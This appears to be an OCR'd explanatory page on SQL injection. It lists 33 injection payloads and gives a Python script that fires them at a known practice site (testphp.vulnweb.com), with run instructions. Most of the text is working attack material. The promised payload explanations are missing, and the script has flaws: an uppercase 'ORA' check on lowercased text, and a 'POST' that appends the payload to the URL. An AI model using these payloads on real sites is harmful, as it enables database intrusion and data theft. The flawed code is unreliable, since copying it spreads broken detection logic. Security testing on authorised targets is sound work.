 These payloads are typically used to test the security of web applications by attempting to exploit vulnerabilities in the way they handle user input. SQL injection occurs when an attacker is able to inject malicious SQL code into a query, manipulating its behavior.

Here's a brief explanation of some of the payloads you've listed:

1. `" or "a"="a`
2. `" or "x"="x`
3. `" or 0=0 #`
4. `" or 0=0 --`
5. `" or 1=1 or ""="`
6. `" or 1=1--`
7. `"' or 1 --'"`
8. `") or ("a"="a`
9. `'`
10. `' (select top 1`
11. `' --`
12. `' ;`
13. `' UNION ALL SELECT`
14. `' UNION SELECT`
15. `' or ''='`
16. `' or '1'='1'--`
17. `' or 'x'='x`
18. `' or (EXISTS)`
19. `' or 0=0 #`
20. `' or 0=0 --`
21. `' or 1 in (@@version)--`
22. `' or 1=1 or ''='`
23. `' or 1=1--`
24. `' or a=a--`
25. `' or uid like '%`
26. `' or uname like '%`
27. `' or user like '%`
28. `' or userid like '%`
29. `' or username like '%`
30. `0 or 1=1`
31. `1 or 1 in (@@version)--`
32. `1 or 1=1--`
33. `or 1=1--`

These payloads are often used in the context of input fields where user input is directly incorporated into SQL queries. Web developers need to be cautious and use proper input validation and parameterized queries to prevent SQL injection attacks. Testing web applications with these payloads (in a controlled environment) helps identify and fix potential vulnerabilities.

**SQL Injection Detection Script Explanation**

This Python script attempts to detect SQL injection vulnerabilities in a target website by sending various SQL payloads and analyzing the response. Here's an explanation of the code:

```python
import requests

# Target URL to test for SQL injection
url = "http://testphp.vulnweb.com/listproducts.php?cat="

# List to store SQL payloads
sql_payloads = []

# Read SQL payloads from a file
with open('sql-attack-vector.txt', 'r') as filehandle:
    for line in filehandle:
        sql_payload = line[:-1]
        sql_payloads.append(sql_payload)

# Iterate through each SQL payload and test for SQL injection
for payload in sql_payloads:
    print("Testing " + url + payload)
    
    # Send a POST request with the SQL payload
    response = requests.post(url + payload)
    
    # Check the response for specific keywords indicating SQL injection
    if "mysql" in response.text.lower(): 
        print("Injectable MySQL detected, attack string: " + payload)
    elif "native client" in response.text.lower():
        print("Injectable MSSQL detected, attack string: " + payload)
    elif "syntax error" in response.text.lower():
        print("Injectable PostGRES detected, attack string: " + payload)
    elif "ORA" in response.text.lower():
        print("Injectable Oracle database detected, attack string: " + payload)
    else:
        print("Payload", payload, "not injectable")
```

**Explanation:**

1. **Target URL:**
   - The `url` variable contains the target URL where SQL injection testing will be performed.

2. **SQL Payloads:**
   - The script reads SQL payloads from a file named 'sql-attack-vector.txt' and stores them in the `sql_payloads` list.

3. **SQL Injection Testing:**
   - The script iterates through each SQL payload in the `sql_payloads` list.
   - It sends a POST request to the target URL with the current SQL payload.
   - The script analyzes the response for specific keywords that indicate SQL injection vulnerabilities.

4. **Detection Criteria:**
   - If the response contains keywords like "mysql," "native client," "syntax error," or "ORA," the script identifies the corresponding SQL injection type.
   - If none of the keywords are found, the payload is considered non-injectable.

5. **Print Results:**
   - The script prints the results, indicating whether each SQL payload resulted in the detection of an injectable database or not.

**Usage:**
- Save this script in a file, e.g., `sql_injection_detection.py`.
- Prepare a file named 'sql-attack-vector.txt' containing various SQL payloads.
- Run the script from the command line:

  ```bash
  python sql_injection_detection.py
  ```

**Note:**
- Ensure that the target website is accessible and allows testing for security purposes.
- Adjust the `url` variable and the SQL payload file based on your testing requirements.
- Review and customize the script according to the specific characteristics of the target website and the SQL injection payloads used.
